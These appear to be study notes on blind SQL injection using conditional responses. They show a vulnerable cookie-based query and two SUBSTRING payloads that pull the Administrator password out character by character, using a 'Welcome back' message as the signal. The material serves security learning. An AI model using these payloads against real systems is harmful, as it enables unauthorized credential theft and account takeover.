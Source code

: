 	1. Conditional response

```vuln
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

web will return different page depending on the query result e.g. returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm


xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

substring ('test', 1, 3) -- extract three charecters starting at position one


